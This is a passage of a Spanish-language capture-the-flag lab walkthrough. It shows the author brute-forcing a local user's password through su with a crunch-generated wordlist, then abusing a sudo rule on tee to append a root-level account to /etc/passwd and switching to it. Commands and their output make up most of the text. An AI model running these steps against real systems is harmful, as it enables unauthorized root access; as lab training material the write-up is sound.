 Ya con las herramientas en la maquina victima procedemos a realizar el ataque de fuerza bruta
```bash
bash Linux-Su-Force.sh carlos wordlist.txt
```

El primero con numeros no obtuvimos nada ahora intentaremos con caracteres alfabeticos
```bash
crunch 12 12 -t "chocolate@@@" -o wordlist.txt
```

Volvemos a realizar el proceso de enviar el diccionario otra ves con el servidor python a la maquina objetivo
Una ves que tenemos el otro diccionario, Lo volvemos a ejecutar
```bash
bash Linux-Su-Force.sh carlos wordlist.txt
```

Ahora si que tenemos la contrasena de usaurio **carlos**:
```bash
Contraseña encontrada para el usuario carlos: chocolateado
```

Ahora si listamos los permisos para este usaurio:
```bash
sudo -l # ( chocolateado )

User carlos may run the following commands on ac8724584bc1:
    (ALL : NOPASSWD) /usr/bin/tee
```

Tenemos una via potencial de migrar de **root** Y sabiendo que en directorio **home** existe un archivo que no podemos leer ya que no somos **root**, Podemos aprovecharnos de esto para ver su contendio:
```bash
-rw------- 1 root   root     11 Jun  9  2024 megasecret.txt
```

Para ganar acceso al objetivo necesitamos crear un nuevo usuario con privielgiso de **root**
```bash
 openssl passwd -1 -salt "hacker1" "hacker1"

$1$hacker1$OacyXpDn5mAwRfiDAg63o1
```

Ahoro nos aprovechamos de este binario para inyectarlo al archivo **passwd**
```bash
printf 'hacker1:$1$hacker1$OacyXpDn5mAwRfiDAg63o1:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd

hacker1:$1$hacker1$OacyXpDn5mAwRfiDAg63o1:0:0:root:/root:/bin/bash
```

Ahora nos loguemaos como el nuevo usuario
```bash
# Comando para escalar al usuario: ( root )
su hacker1
```

---
